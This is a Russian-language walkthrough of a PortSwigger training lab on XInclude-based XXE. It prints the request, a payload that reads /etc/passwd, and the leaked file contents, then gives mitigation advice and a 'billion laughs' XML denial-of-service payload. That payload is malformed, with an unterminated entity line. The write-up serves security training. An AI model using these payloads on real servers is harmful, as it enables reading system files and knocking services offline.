 ## XInclude in XXE attack

#### > В общих чертах: как работает, зачем нужен

XXE (или вставка внешних сущностей XML) - уязвимость, позволяющая злоумышленнику вмешиваться в обработку XML-данных веб-приложений (сайтов) при их отправке на сервер. Чаще всего используется для просмотра файлов в файловой системе сервера приложений, а так же других серверов или внешних систем, к которым приложение может получить доступ. Результат уязвимости можно посмотреть в ответе приложения (response).

<i>Чтобы выполнить атаку <b>XInclude</b>, необходимо указать пространство имен XInclude и путь к файлу, содержимое которого требуется получить</i>

---

##### > Разберу по шагам пример того, как работает данная уязвимость

Открою ссылку на лабу из практической работы
> https://portswigger.net/web-security/xxe/lab-xinclude-attack

Нам дано:

- Есть некий сайт с товарами
- По товарам можно посмотреть детализацию (кнопка 1)
- В детализации можно проверить наличие товара в разных магазинах (кнопка 2)

Рассмотрю запрос по кнопке 2 (наличие товара в магазинах)

<b>Запрос 1</b>

~~~
POST /product/stock HTTP/1.1
Host: 0a9700f203ced1b4c026723800b50012.web-security-academy.net
Cookie: session=QZMMaj22B268131231nL1AmaboxdzxV
Origin: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net
Accept: */*
Referer: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 21

productId=2&storeId=1
~~~

В запросе, как минимум, 2 изменяемых параметра.
~~~
productId=2
storeId=1
~~~

Подставлю в значение параметр productId текст из [примера](https://gist.github.com/jakekarnes42/effe052f1095532cda84307024b3d512) к практической работе
~~~
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
~~~

Теперь текст <b>запроса 1</b> будет выглядеть так (все спец. символы из текста выше заменены кодами):

~~~
POST /product/stock HTTP/1.1
Host: 0a9700f203ced1b4c026723800b50012.web-security-academy.net
Cookie: session=QZMMaj22B268131231nL1AmaboxdzxV
Origin: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net
Accept: */*
Referer: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 21

productId=%3cfoo%20xmlns%3axi%3d%22http%3a%2f%2fwww%2ew3%2eorg%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20parse%3d%22text%22%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%2f%3e%3c%2ffoo%3e%20&storeId=1
~~~

Теперь выполню (отправлю на сервер) <b>запрос 1</b> и посмотрю ответ сервера (response):

Обычный удачный ответ от сервера выглядит так, но это не наш случай:

~~~
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

456
~~~

<b>Ответ сервера при атаке XInclude:</b>

~~~
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1279

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin"
~~~

Как видим, это содержимое файла <b>/etc/passwd</b>

---

##### > Причина возникновения уязвимости

Практически все уязвимости XXE возникают из-за того, что библиотека синтаксического анализа XML-приложения поддерживает потенциально опасные функции XML, которые приложению по сути не нужны или не предназначены для использования.
Самый простой и эффективный способ предотвратить атаки XXE — отключить эти функции.
Как правило, достаточно отключить разрешение внешних сущностей и отключить поддержку XInclude. Обычно это можно сделать с помощью параметров конфигурации или программного переопределения поведения по умолчанию. Дополнительные сведения об отключении ненужных возможностей см. в документации по библиотеке синтаксического анализа XML или API.

---

##### > "Отказ в обслуживании" (Denial-of-Service)

Пример атаки состоит из определения 10 сущностей, каждая из которых определяется как состоящая из 10 предыдущих сущностей, с документом, состоящим из одного экземпляра наибольшей сущности, которая расширяется до одного миллиарда копий первой сущности

[Описание атаки (wiki)](https://en.wikipedia.org/wiki/Billion_laughs_attack)

~~~
POST http://somesite.com/xml HTTP/1.1
<?xml version="1.0" ?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<foo>
  &lol9;
</foo>
~~~

![здесь могла быть картинка](https://i.stack.imgur.com/hYnmH.png)